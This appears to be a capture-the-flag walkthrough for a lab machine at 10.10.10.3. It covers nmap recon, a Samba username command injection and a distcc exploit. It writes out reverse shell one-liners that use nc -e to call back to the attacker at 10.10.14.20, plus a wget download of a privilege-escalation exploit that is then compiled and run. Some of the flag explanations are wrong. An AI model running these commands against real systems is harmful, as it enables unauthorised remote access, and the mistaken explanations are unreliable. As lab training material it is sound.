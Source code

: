 #   CMD 

```
nmap -sC -sV 10.10.10.3
```
-sC: run default nmap scripts <br>
-sV: detect service version

```
ls /usr/share/nmap/scripts/ftp*
```
/usr/share/nmap/scripts/ftp-anon.nse<br>
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse<br>
/usr/share/nmap/scripts/ftp-bounce.nse <br>
/usr/share/nmap/scripts/ftp-syst.nse<br>
/usr/share/nmap/scripts/ftp-brute.nse
/usr/share/nmap/scripts/ftp-libopie.nse <br>
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
<h5>/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse</h5>

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```
```
ls /usr/share/nmap/scripts/ssh*
```
```
smbclient -L 10.10.10.3
```
```
smbmap -H 10.10.10.3
```

#   Exploitation #1: Samba

```
nc -nlvp 4444
```
```
smbclient //10.10.10.3/tmp
```
```
logon "/=`nohup nc -nv 10.10.14.20 4444 -e /bin/sh`"
```

logon   ---->>>> is likely the name of a function or command that is being called. <br>
"/="    ---->>>> is not a valid shell syntax and it's not clear what the intention of this string is. <br>
nohup   ---->>>>  is a command that allows a process to continue running in the background even if the user logs out or the terminal is closed. <br>
-nc     ---->>>>  is the netcat command, which is a utility for reading and writing data across network connections. <br>
-nv     ---->>>> are options for nc, which instruct it to use verbose output and to not use DNS for resolving the target IP address. <br>
-e      ---->>>>  is an option for nc that specifies the command to execute after the connection is established. <br>
/bin/sh ---->>>>  is the command that will be executed on the target machine after the reverse shell connection is established. It launches a shell session, allowing the attacker to interact with the target machine's command line. <br>
    
```
script -qc /bin/bash /dev/null 
```
"script" ---->>>>  is a command-line utility that creates a typescript of a terminal session.<br>
"-q" ---->>>>  flag tells "script" to run in quiet mode, which suppresses extra messages from being printed on the console.<br>
"c" ---->>>>  flag tells "script" to capture the output to the specified file, in this case, "/dev/null", which is a special file that discards any data written to it.<br>
"/bin/bash" ---->>>>  is the shell interpreter that executes the commands in the script.<br>
"/dev/null" ---->>>>  is a special file that discards any data written to it.<br>

#   Exploitation #2: Distcc

```
nc -nlvp 4444
```
```
nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd='nc -nv 10.10.14.20 4444 -e /bin/bash'"
```
```
searchsploit -m 8572.c
```
```
python3 -m http.server 8000 
```
```
wget http://10.10.14.20:5555/8572.c
```
```
gcc 8572.c -o 8572  
```
```
ps -aux | grep devd
```
```
nc -nlvp 4445
```
```
./8572 2661
```
